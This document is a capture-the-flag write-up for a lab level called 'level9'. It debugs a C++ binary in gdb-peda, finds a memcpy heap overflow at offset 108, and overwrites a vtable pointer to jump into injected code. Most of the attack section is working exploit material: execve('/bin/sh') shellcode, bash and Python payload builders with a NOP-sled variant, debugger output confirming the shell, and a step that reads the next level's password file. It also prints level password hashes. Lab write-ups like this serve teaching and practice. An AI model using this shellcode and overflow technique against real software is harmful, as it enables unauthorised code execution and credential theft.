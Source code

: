 # Level9 - Read asm of CPP file

## Local script usage

```shell
Usage: ./main.sh
```

## Passwords and token

|        |                                                                    |
| ------ | ------------------------------------------------------------------ |
| level9 | `c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a` |
| bonus0 | `f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728` |

## Steps to resolve on VM

Note: We will use `gdb-peda`. You can setup peda with the script: [scripts/installPeda.sh](../../scripts/installPeda.sh)

Execute level9

```shell
./level9
```

Nothing happened

Lets debug the binary

```shell
(gdb) info functions
0x080485f4  main
0x080486f6  N::N(int)
0x0804870e  N::setAnnotation(char*)
0x0804873a  N::operator+(N&)
0x0804874e  N::operator-(N&)
```

See our assembly interpretation in [source file](../source.c)

The main difficulty here is the C++ language, that translates class method in not obvious ASM names. For example `_ZN1NplERS_` => `N::operator+(N&)`.

We can see a function `N::setAnnotation(char*)`, that uses `memcpy` and then the register `edx` is executed.

The idea is to use `memcpy` to create a buffer overflow and then execute a shellcode.

Lets search the offset

```shell
gdb-peda$ pset arg cyclic_pattern(200)
gdb-peda$ run
gdb-peda$ pattern search
> Registers contain pattern buffer:
  EAX+0 found at offset: 108
  Pattern buffer found at:
  0x0804a00c : offset    0 - size  200 ([heap])
```

While debugging we confirm the address of the buffer `a->annotation` is well 0x0804a00c, with an offset of 108.

```shell
gdb-peda$ b*0x08048677
gdb-peda$ run AAAA
gdb-peda$ ni
gdb-peda$ x/30x 0x0804a00c
  0x804a00c:      0x41414141      0x00000000      0x00000000      0x00000000
  0x804a01c:      0x00000000      0x00000000      0x00000000      0x00000000
  0x804a02c:      0x00000000      0x00000000      0x00000000      0x00000000
  0x804a03c:      0x00000000      0x00000000      0x00000000      0x00000000
  0x804a04c:      0x00000000      0x00000000      0x00000000      0x00000000
  0x804a05c:      0x00000000      0x00000000      0x00000000      0x00000000
  0x804a06c:      0x00000000      0x00000005      0x00000071      0x08048848
  0x804a07c:      0x00000000      0x00000000
gdb-peda$ x/x 0x08048848
  0x8048848 <_ZTV1N+8>:   0x0804873a
gdb-peda$ x/x 0x0804873a
  0x804873a <_ZN1NplERS_>: 0x8be58955

```

We have to erase the address `0x08048848`. It will be executed by `edx`. It contains a reference to a pointer of `N::operator+(N&)` method.

We have to build an exploit with:

```bash
SHELLCODE="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" # Length: 28
PADDING=`python -c 'print("A" * 80)'` # OFFSET=108 - SHELLCODE_LENGTH=28
RETADDRESS="\x0c\xa0\x04\x08"

python -c "print('$SHELLCODE_ADDRESS' + '$SHELLCODE' + '$PADDING' + '$RETADDRESS')" > /tmp/exploit9
```

Lets try

```shell
gdb-peda$ b*0x08048693 # before $edx
gdb-peda$ run $(cat /tmp/exploit9)
gdb-peda$ p $edx
  $1 = 0x6850c031
gdb-peda$ ni
  Stopped reason: SIGSEGV
  0x6850c031 in ?? ()
```

Unfortunately, this one does not work because it tries to dereference the address `0x6860c031` instead of executed it.

We have to put the address of shellcode as prefix.

Lets try again

```bash
SHELLCODE_ADDRESS="\x10\xa0\x04\x08" # Buffer address + 4
SHELLCODE="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
PADDING=`python -c 'print("A" * 76)'` # OFFSET=108 - SHELLCODE_LENGTH=28 - SHELLCODE_ADDRESS=4
RETADDRESS="\x0c\xa0\x04\x08" # Buffer address

python -c "print('$SHELLCODE_ADDRESS' + '$SHELLCODE' + '$PADDING' + '$RETADDRESS')" > /tmp/exploit9
```

```shell
gdb-peda$ b*0x08048693 # before $edx
gdb-peda$ run $(cat /tmp/exploit9)
gdb-peda$ p $edx
  $1 = 0x804a010 # address of shellcode
gdb-peda$ x/x 0x804a010
  0x804a010:      0x6850c031 # first instructions of shellcode. Seems great !
gdb-peda$ continue
  process 9431 is executing new program: /bin/dash
$ # We have got the shell !
```

Another way could be to fill the padding with NOPSLED (\x90) and then point to an address inside this padding of NOP  
The buffer starting at 0x0804a00c with 76 NOP (108 - 28 - 4), we can for example chose 16 bytes after and point at 0x0804a01c

```python
#!/usr/bin/python

START = '\x1c\xa0\x04\x08'
NOPSLED = '\x90' * (108 - 28 - 4)
SHELLCODE = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'
EIP = '\x0c\xa0\x04\x08'

print START + NOPSLED + SHELLCODE + EIP
```

Finally we can get the pass !

```shell
~/level9 $(cat /tmp/exploit9)
$ whoami
> bonus0
$ cat /home/user/bonus0/.pass
> f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

---

## Sources

### ASM

- [What is operator new(unsigned int)? - \_Znwj](https://reverseengineering.stackexchange.com/questions/4402/what-is-operator-newunsigned-int)

### CPP

- [C++ Overloading (Operator and Function)](https://www.tutorialspoint.com/cplusplus/cpp_overloading.htm)
- [Man \_Exit](https://en.cppreference.com/w/cpp/utility/program/_Exit)
- [Man memcpy](http://www.cplusplus.com/reference/cstring/memcpy/)
